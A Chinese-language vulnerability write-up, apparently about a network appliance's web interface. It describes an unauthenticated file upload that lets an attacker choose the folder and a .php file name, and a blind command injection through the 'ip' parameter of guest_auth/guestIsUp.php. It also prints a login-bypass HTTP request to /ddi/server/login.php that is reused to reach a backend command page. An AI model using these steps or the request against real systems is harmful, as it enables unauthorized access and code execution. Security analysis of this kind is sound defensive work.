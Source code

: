 首先是没有引入鉴权文件，因此此路由存在未授权

![]()

##### 文件命名  

![]()

需要传入uploadDir以及name

uploadDir是文件落地位置，当目录不存在时自动创建目录

name是落地的文件名，可以通过两种方式定义，第一种是直接GET发包，比如?name=1234.php或者?filename=1234.php，那么最后落地的文件就是1234.php，需要注意的是当发包的参数是filename时，由于代码中的顺序是在GET的name参数和POST文件上传包之后的另一个条件语句，所以就算前面通过前两者已经定义过文件名了，也会重新赋值文件名

![]()

第二种是通过POST文件上传包，其中$_FILES["file"]["name"]即文件上传包中的filename

![]()

最后文件上传包

![]()

对应web路径访问

http://x.x.x.x/321/123.php

  * 无回显命令执行

漏洞文件guest_auth/guestIsUp.php

![]()

命令直接拼接，只需POST传ip即所要执行的命令（首选需要截断之前的命令）然后mac不为空，即可命令执行

  * 登录绕过+后台RCE

####

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /ddi/server/login.php HTTP/1.1            Host:             User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/28.0.1468.0 Safari/537.36            Accept: */*            Accept-Encoding: gzip, deflate            Accept-Language: zh-CN,zh;q=0.9            Connection: close            Upgrade-Insecure-Requests: 1            X-Forwarded-For: 127.0.0.1            Content-Type: application/x-www-form-urlencoded            Content-Length: 42              
      
                username=admin&password=admin?show+version

 拿到cookie

![]()

带cookie访问/ddi/server/newcli.php或者newcli.php，已经是登陆状态
